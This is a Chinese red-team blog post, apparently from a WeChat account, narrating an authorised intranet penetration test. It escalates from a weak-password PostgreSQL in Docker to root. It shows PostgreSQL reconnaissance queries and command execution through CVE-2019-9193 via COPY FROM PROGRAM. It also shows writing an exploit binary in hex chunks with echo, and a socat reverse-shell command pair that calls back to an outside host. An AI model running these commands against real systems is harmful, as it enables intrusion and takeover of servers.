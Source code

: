 #  第22篇：一次艰难的PostgreSQL不出网提权过程

原创 abc123info [ 网络安全abc123 ](javascript:void\(0\);)

**网络安全abc123** ![]()

微信号 abc123network

功能介绍 ABC_123，2008年入行网络安全，某攻防实验室创始人，Struts2工具及Weblogic
T3/IIOP反序列化工具原创作者。擅长红队攻防、0day挖掘、代码审计、网络安全培训、应急响应、日志分析等。专注于前沿网络安全技术。

____

___发表于_

收录于合集

#攻防比赛 16 个

#红队 13 个

#内网渗透 3 个

#提权 1 个

#PostgreSQL 1 个

![](https://gitee.com/fuli009/images/raw/master/public/20220923140028.png)**
Part1 前言
**在日常的内网横向过程中，对于SMB、Mysql、SSH、Sqlserver、Oracle等服务的弱口令爆破是常用手段，重复的红队攻防比赛使得这些服务的弱口令越来越少了。所以在平时，
**ABC_123也会关注一些其它服务的弱口令提权方法** ，有时候会在内网横向中收到奇效。本期就分享一个在内网渗透中，遇到的
**PostgreSQL数据库提权案例**
，过程非常艰辛，但是收获不少。首先简单介绍一下当时的渗透测试工作进展情况：前期通过外围打点进入了一个大B段的内网，内网非常庞大，但是资产极其稀少，在客户授权的情况下，一通B段探测，仅仅发现了一个Postgres弱口令，而且
**这个PostgreSQL是在docker容器中的，是非root权限起的服务**
，也就说内网只有这一个突破口。通过查看目录，发现一些目录有很多开发留下来的配置文件，但是需要root权限才能读取到。所以，接下来的要做的事情非常明确，就是提权到Linux服务器最高权限。
**此文章抛砖引玉，如果 大家有更好的方法，欢迎微信后台给我发消息讨论。**  
 **  Part2 技术研究过程 **

  *  **对于PostgreSQL信息探测**

首先按照惯例，肯定是需要对PostgreSQL数据库进行一系列信息收集的，常用的命令有以下这些：\-- 版本信息select version();show
server_version;  
select pg_read_file('PG_VERSION', 0, 200);  
\-- 数字版本信息包括小版号SHOW server_version_num;SELECT
current_setting('server_version_num');  
\-- 获取安装目录（通过路径可以判断系统是linux还是windows的）select setting from pg_settings where
name = 'data_directory';  
\-- 获取配置文件路径selectsetting from pg_settings where name='config_file'  
\-- 获取Postgres内网ip地址select
inet_server_addr()![](https://gitee.com/fuli009/images/raw/master/public/20220923140029.png)  

  *  **PostgreSQL提权漏洞尝试**

通过各种搜索，发现PostgreSQL曾经爆出过三个有价值的提权漏洞：其中一个漏洞是 **CVE-2018-1058**
，漏洞描述是“PostgreSQL的9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作”。在网上看了几篇漏洞复现文章之后，感觉这个漏洞不太好利用，
**提权成功需要等待“超级用户触发”**
，而且这个漏洞是“把一个普通的数据库用户权限提升到数据库管理员权限”，而我们需要的是一个Linux服务器权限，所以这个CVE漏洞不适用于本次测试工作。另一个方法是PostgreSQL的
**UDF提权** 执行命令方法，但是本次环境用不成功，而且用起来挺麻烦的。

还找到一个漏洞是 **CVE-2019-9193**
，这个漏洞看起来非常好，可以直接执行系统命令，还可以看到回显结果。使用起来也比较简单。如下图所示，这个postgres数据库没有root权限。

![](https://gitee.com/fuli009/images/raw/master/public/20220923140030.png)  
  

  * ##  **Linux提权操作却无gcc**

通过postgreSQL提权漏洞，我们可以执行linux系统命令了，接下来需要提权到服务器的root权限。我想到的方法是上传一个提权exp，通过linux系统漏洞提权到root权限。可是操作起来没那么简单，
**因为这个docker容器没装gcc**
。这种情况也有解决办法，准备一个相似的docker环境，编译好一个exp，将此二进制文件传到服务器上即可运行成功。![](https://gitee.com/fuli009/images/raw/master/public/20220923140031.png)  

  * ##  **echo命令写二进制文件**

编译后的提权文件做好了，但是此postgres的docker环境太精简了，很多程序都没有：wget命令不存在、curl不存在、python不存在，而且服务器还不出网，所以通过下载文件方式去写入提权文件，看来不太好弄。
**那么只能直接写二进制文件了** ，可是问题又来了，| base64 -d 命令不存在、|xxd -r -ps
命令也不存在，怎么写二进制文件呢？看来只剩下echo命令可用了，经过一系列测试，发现echo是可以直接写入二进制文件的， **命令如下echo -e -n
"\x23" >>
exploit3.bin。比较麻烦的是，需要把二进制文件转成16进制格式的，如下图所示**：![](https://gitee.com/fuli009/images/raw/master/public/20220923140032.png)  
接下来就是与postgres的提权语句结合起来使用了，原有的echo命令是这样的：echo -e -n
"\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23" >>
test3.bin但是放在postgres必须用以下这样方式才行，试了好多次，只有这样才能写成功！注意，
**echo左边的是两个单引号，不是双引号，exploit3.bin右边是3个单引号** 。COPY cmd_exec FROM PROGRAM
'/bin/bash -c ''echo -e -n "\x33" >>
exploit3.bin''';最终通过postgres提权漏洞写入提权exp文件的具体语句如下：![](https://gitee.com/fuli009/images/raw/master/public/20220923140034.png)  
最终exploit3.bin文件写入成功了，执行chmod 777 exploit3.bin之后，运行此文件，发现没反应，这时候我才反应过来。。。
**这个提权exp需要交互环境**
！！！接下来我需要传一个nc啥的反弹shell获取交互环境吗？可是nc也不一定能获取纯交互环境呀。我想到了一个好久没用的工具socat，解决了这个问题。  

  * ##  **socat获取交互型shell**

socat这款工具，可以说是nc的升级版本，可以轻松获取到一个纯交互环境，github上有很多绿色免安装版本。执行如下命令后，将会获取到一个完全交互式的TTY会话：Vps上监听端口socat
file:`tty`,raw,echo=0 tcp-listen:8888  
内网服务器上运行socat exec:'bash -li',pty,stderr,setsid,sigint,sane
tcp:10.0.3.4:888888服务器不通外网怎么办呢，正好我们webshell有一台服务器，就反弹到webshell这个服务器上吧。（下图来源于网络）![](https://gitee.com/fuli009/images/raw/master/public/20220923140035.png)  

  * ##  **分割二进制大文件写入成功**

把这个socat单文件转成16进制格式的，通过postgres提权命令执行写入。结果通过ls
-lah命令发现文件并没有写进去，原因在哪里呢？后来发现，COPY cmd_exec FROM PROGRAM **这个语句对二进制文件大小有限制的**
，文件太大写不进去。接下来怎么办？继续干！于是把二进制文件分割开，挨个执行echo -e -n命令叠加写入二进制文件，经过一系列测试发现，
**一个367k大小的socat文件，需要分割成近15份才能写入成功**
。也是我用java写了一个小程序，将socat文件分割成15份，并且自动生成postgres提权命令。
**关注公众号，后台回复“333”，即可获取二进制文件转16进制的java代码文件。**![](https://gitee.com/fuli009/images/raw/master/public/20220923140037.png)  
 **  Part3 总结 ** **1.
**echo命令写二进制文件可以关注一下，遇到大文件，可以把大文件分割成好几份，逐个echo写入，最后叠加成最终的二进制文件。 **2.
**内网横向中不只要关注mssql、redis、oracle的提权，其它的不常用的服务的提权方法，平时也需要多收集。 **3.
**socat这款工具可以获取一个纯交互环境，而且在docker精简环境下仍能正常使用。![](https://gitee.com/fuli009/images/raw/master/public/20220923140038.png)专注于网络安全技术分享，包括红队、蓝队、日常渗透测试、安全体系建设等每周一篇，99%原创，敬请关注![](https://gitee.com/fuli009/images/raw/master/public/20220923140039.png)
**往期精彩回顾**
****[第21篇：判断Weblogic详细版本号的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484386&idx=1&sn=9104bd3fad09c607c0ce4b02e483957d&chksm=c25fcc99f528458f8f29d93f9fb7c961255bb64351061e0d6b0eb0c3fc08f2b660e53d45459d&scene=21#wechat_redirect)  
[第20篇：改造冰蝎客户端适配JNDIExploit的内存马](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484370&idx=1&sn=41144e2b24cf223753b1f631b7a7269b&chksm=c25fcca9f52845bfec4aceb55bbc2e35b95605873193a0a499b9505957039619598ae458b045&scene=21#wechat_redirect)
**[](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484370&idx=1&sn=41144e2b24cf223753b1f631b7a7269b&chksm=c25fcca9f52845bfec4aceb55bbc2e35b95605873193a0a499b9505957039619598ae458b045&scene=21#wechat_redirect)  
**[第19篇：关于近期cs服务端被反打的原因分析](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484349&idx=1&sn=c23223a0348336daae18acc4a4790bb8&chksm=c25fccc6f52845d03b30faae72d252256434197d1267d713e60b85810f734368f0be61e62a06&scene=21#wechat_redirect)[第18篇：fastjson反序列化漏洞区分版本号的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484332&idx=1&sn=c787dd0985156d856aad03d56a945be4&chksm=c25fccd7f52845c1e172b864dfc219dcecc9f226fb5abc64ef31178914ad9f58b7868bf6917a&scene=21#wechat_redirect)[第17篇：Shiro反序列化在Weblogic下无利用链的拿权限方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484319&idx=1&sn=9da36674830837aa9bcacb3fb6268fd1&chksm=c25fcce4f52845f2ac3cebaf17fd3839fdba74f536ad3da20d1b1126d8ba0e1835853990516c&scene=21#wechat_redirect)[第16篇：Weblogic
2019-2729反序列化漏洞绕防护拿权限的实战过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484303&idx=1&sn=58cbb4d7f63b9276bb89eeac286d174c&chksm=c25fccf4f52845e241256c2f425003b73b6061b3d1964dcd4a184a2cda1b4d8761098227e6de&scene=21#wechat_redirect)[第15篇：内网横向中windows各端口远程登录哈希传递的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484255&idx=1&sn=e233aa07fdf9de0c8a1bf56fb0954766&chksm=c25fcc24f5284532c5aa27c002d15aa6380c456e2a84299c77b8d43a41892517087258bf867d&scene=21#wechat_redirect)[第14篇：Struts2框架下Log4j2漏洞检测方法分析与总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484207&idx=1&sn=285b54a79e48db9a05816cab2e6afc27&chksm=c25fcc54f5284542c1b9abe870e0caa9f958f4da90723bd83292deed215c63c705b7b0bbfaff&scene=21#wechat_redirect)  
[第13篇：coldfusion反序列化过waf改exp拿靶标的艰难过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484191&idx=1&sn=cce12f62b3cf457bc73753b77a083695&chksm=c25fcc64f528457250b11ef6804ee6138c37ed87ab988874cc84d09d04fa6ac1fd36b5e8aa4a&scene=21#wechat_redirect)  
[第12篇：给任意java程序挂Socks5代理方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484173&idx=1&sn=e2d454d2447d119bf771a0a511fba994&chksm=c25fcc76f5284560d00355590da0147aca7b7ae2275c095424034245ef32b3d0b28e49c2dbc9&scene=21#wechat_redirect)  
[第11篇：盲猜包体对上传漏洞的艰难利用过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484162&idx=1&sn=870596fcd1120a6d3ee9688c38aace00&chksm=c25fcc79f528456f9dc0a3b9d9cf54422696a1cd6ffd737ae2c6e33941a25c33d4f6d32fc663&scene=21#wechat_redirect)  
[第10篇：IIS短文件名猜解在拿权限中的巧用](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484145&idx=1&sn=7635430b9b759a2cacdd2c57ba330833&chksm=c25fcd8af528449c1f5c6c703e3668cf6a8dae875ee82ffa67caed66722a0751e3d80d8a6bee&scene=21#wechat_redirect)  
[第9篇：Shiro反序列化数据包解密及蓝队分析工具，提供下载](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484123&idx=1&sn=cb9c039ef92311e56e7742c7c38f6e8a&chksm=c25fcda0f52844b6088b39b769a63b2f6e7a29e8b3ab710961918218d7569089ee4e00072ad9&scene=21#wechat_redirect)  
[第8篇：Oracle注入漏洞绕waf的新语句](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484115&idx=1&sn=10c73343ec23f522696692293cd38852&chksm=c25fcda8f52844be2165aa6151c7ad018a4add748673d56523631529e903277633dc44d0abba&scene=21#wechat_redirect)  
[第7篇：MS12-020蓝屏漏洞在实战中的巧用](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484105&idx=1&sn=3aeafa9c172588aaaade47ccacb69370&chksm=c25fcdb2f52844a4a783fceec590c9e12eb06f62dabd7fbffb37e8da23053953a7eae296048d&scene=21#wechat_redirect)  
[第6篇：Weblogic反序列化攻击不依赖日志溯源攻击时间](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484094&idx=1&sn=527236759dc4fd228461195197492507&chksm=c25fcdc5f52844d36bffb96979116d6d3a9ae4fb1a0f320436c7275aea271588c702cea60e5c&scene=21#wechat_redirect)  
[第5篇：Shiro Padding
Oracle无key的艰难实战利用过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484091&idx=1&sn=4dcce59a842f17035d0018bf650671ae&chksm=c25fcdc0f52844d608b6b87d85082b74d5e15888e76001127ff40cc407a46e5e5de446b1365e&scene=21#wechat_redirect)  
[第4篇：jsp型webshell被删情况下如何溯源攻击时间](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484004&idx=1&sn=50013b50e48542d156700d76ccbd2f33&chksm=c25fcd1ff528440906bb9089a807c16b747ab5a72cc0279a3c0d18a265cd76cc796df570d594&scene=21#wechat_redirect)  
[第3篇：银行Java站SSRF"组合洞"打法造成的严重危害](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483984&idx=1&sn=1a018fcefe10124c1726e51a2be05ca7&chksm=c25fcd2bf528443d944a8495ca5c72d8c028fef67de217efe47a8d18b077ae24556842687407&scene=21#wechat_redirect)  
[第2篇：区分Spring与Struts2框架的几种新方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483951&idx=1&sn=fbc1d04ef73a449238a5979a439b1f35&chksm=c25fcd54f528444219f20c2ab14c5970c243fbb10ba04b5bccc0fb0b7cc6d3f542e26f7870bf&scene=21#wechat_redirect)  
[第1篇：weblogic9.x在JDK1.5下T3反序列化漏洞利用方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483867&idx=1&sn=e0fcaa9f1b58c8085ccd9dc6f74ed336&chksm=c25fcea0f52847b6aeec0409e3290e023b890d603361f103315b39637f89a10dd6fe051dc724&scene=21#wechat_redirect)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

